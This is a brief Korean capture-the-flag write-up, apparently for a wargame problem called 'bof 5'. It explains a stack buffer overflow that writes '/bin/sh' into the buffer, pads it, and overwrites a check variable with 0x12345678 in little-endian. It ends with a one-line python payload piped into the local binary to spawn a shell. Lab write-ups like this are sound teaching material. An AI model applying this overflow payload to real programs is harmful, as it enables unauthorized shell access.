

# bof 5

다른 문제와 별반 차이 없어 제이지만 잘 보면 system 함수의 인자 값이 다르다.



기존의 인자 값은 "/bin/sh" 이었으나 이번에는 buf를 채워 그 내요을 직접 넣어주어야 한다. 따라서 버퍼를 "/bin/sh\x00" (8byte) 로 채운 후 나머지 132byte는 아무거나 채운다 그리고 그 이후의 부분은 innocent의 내용이므로 little-endian을 고려하여 key 값과 동일하게 채워주면 된다.

따라서 터미널에 입력해야 하는 명령은 다음과 같다.

``` bash
$ (python -c 'print "/bin/sh\x00" + "\x90"*132 + "\x78\x56\x34\x12"';cat) | ./bof5
```